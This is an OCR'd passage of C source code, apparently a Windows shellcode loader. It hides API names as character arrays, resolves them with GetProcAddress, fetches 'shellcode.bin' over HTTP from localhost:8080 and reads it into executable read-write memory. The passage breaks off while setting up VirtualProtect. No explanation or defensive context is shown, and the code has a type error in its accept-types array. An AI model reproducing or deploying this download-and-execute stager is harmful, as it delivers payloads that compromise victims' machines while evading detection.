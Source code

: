         char internetclosehandle_name[] = { 'I','n','t','e','r','n','e','t','C','l','o','s','e','H','a','n','d','l','e', 0 };
        void(WINAPI * _InternetCloseHandle)(
            HINTERNET hInternet
            ) = (void (WINAPI*)(
                HINTERNET hInternet
                )) _GetProcAddress((HMODULE)wininet_dll, internetclosehandle_name);

        char user_agent[] = { 'u','s','e','r',0 };
        HINTERNET hInternet = _InternetOpenA(user_agent, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
        if (hInternet == NULL)
        {
            return 1;
        }
        char sitename[] = { 'l','o','c','a','l','h','o','s','t',0 };
        int port = 8080;
        HINTERNET hConnect = _InternetConnectA(hInternet, sitename, port, NULL, NULL, INTERNET_SERVICE_HTTP, 0, NULL);
        if (hConnect == NULL) {
            return 1;
        }

        const char* acceptTypes[] = { '*','/','*', NULL };
        char method[] = { 'G','E','T',0 };
        char site_param[] = { 's','h','e','l','l','c','o','d','e','.','b','i','n',0 };
        HINTERNET hRequest = _HttpOpenRequestA(hConnect, method, site_param, NULL, NULL, acceptTypes, 0, 0);
        if (hRequest == NULL) {
            return 1;
        }

        BOOL bRequestSent = _HttpSendRequestA(hRequest, NULL, 0, NULL, 0);

        BOOL bKeepReading = TRUE;
        const int nBuffSize = 5000000;
        int size = 0;

        char virtualalloc_name[] = { 'V','i','r','t','u','a','l','A','l','l','o','c', 0 };
        LPVOID(WINAPI * _VirtualAlloc)(
            LPVOID lpAddress,
            SIZE_T dwSize,
            DWORD  flAllocationType,
            DWORD  flProtect
            ) = (LPVOID(WINAPI*)(
                LPVOID lpAddress,
                SIZE_T dwSize,
                DWORD  flAllocationType,
                DWORD  flProtect
                )) _GetProcAddress((HMODULE)base, virtualalloc_name);

        char* buff = _VirtualAlloc(0, 10000000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        DWORD dwBytesRead = -1;

        while (bKeepReading && dwBytesRead != 0) {
            bKeepReading = _InternetReadFile(hRequest, buff, nBuffSize, &dwBytesRead);
        }
        DWORD dwOldProtect;
        char virtualprotect_name[] = { 'V','i','r','t','u','a','l','P','r','o','t','e','c','t',0 };
        BOOL(WINAPI * _VirtualProtect)(
            LPVOID lpAddress,
            SIZE_T dwSize,
            DWORD  flNewProtect,
            PDWORD lpflOldProtect
            ) = (BOOL(WINAPI*)(
                LPVOID lpAddress,
                SIZE_T dwSize,
                DWORD  flNewProtect,